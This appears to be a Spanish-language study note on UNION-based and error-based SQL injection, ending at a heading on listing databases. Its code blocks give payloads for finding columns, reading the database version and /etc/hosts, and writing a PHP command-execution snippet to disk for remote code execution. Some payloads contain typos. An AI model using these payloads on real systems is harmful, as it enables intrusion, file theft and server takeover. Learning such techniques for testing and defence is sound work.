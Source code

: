 Si en el output nos representa  un error o es diferente un codigo de respuesta basandonos a la cantidad de datos introducidos  podemos hacer un UNION SELECT basandonos de x columa encontrada 

## Aplicaicon en Union select 
Por ejemplo, si fueran 5 columnas:

```
'union select 1,2,3,4,5-- -

'union select 1,1,1,1,1-- -

'union select NULL,NULL,NULL,NULL,NULL-- -
```

## Error Based and Union select with finding a column contain text
Error Based - > nos aprovechamos basandonos al error de la Web del output 

dependiendo de el  output y del orden identificador del numero que pongamos podemos inyectar codigo para mandar mas querys, como por ejemplo cargar un load file interno de la máquina. Ejemplo agarrando la db de la anterior , si en el otput tenemos un identificador numerico 3 en la sentencia que mandamos, podemos inyectar mas querys y aplicar mas inyecciones sobre ese campo y si no representa un output tenemos que ir fuzzeando en cada uno de los datos para saber el campo inyectable 

```
'union select 1,2,@@version,4,5-- -

'union select version(),user,(),4,5-- -

'union select 1,2,load_file("/etc/hosts")4,5-- - 

***podemos inyectar codigo php si la página lo interpreta para poder cargar cosas o tener RCE***

'union select,1,2,<?php system("whoami") ?>",into outfile "/tmp/prueba.txt";- -

***si No tenemos ouput en la respuesta Fuzzeamos por cada uno hasta que nos representa la cadena inyectada, en este caso inyectaremos "test" 

'union select 'test',2,3,4,5-- - no devuelve el output de test, intentaremos el siguiente

'union sleect 1,'test',3,4,5-- - tampoco devuelve, el siguiente ahora

'union select 1,2,'test',4,5-- - si devuelve por lo tanto en este campo inyectaremos las querys 

```

obtener informacion sobre otras tablas, **Un schemaName representa un esquema** . Los esquemas contienen otros objetos de diccionario, como tablas e índices. Los esquemas proporcionan una forma de nombrar un subconjunto de tablas y otros objetos de diccionario dentro de una base de datos. 

## Nombre de las bases de datos existentes (Listar DBs)

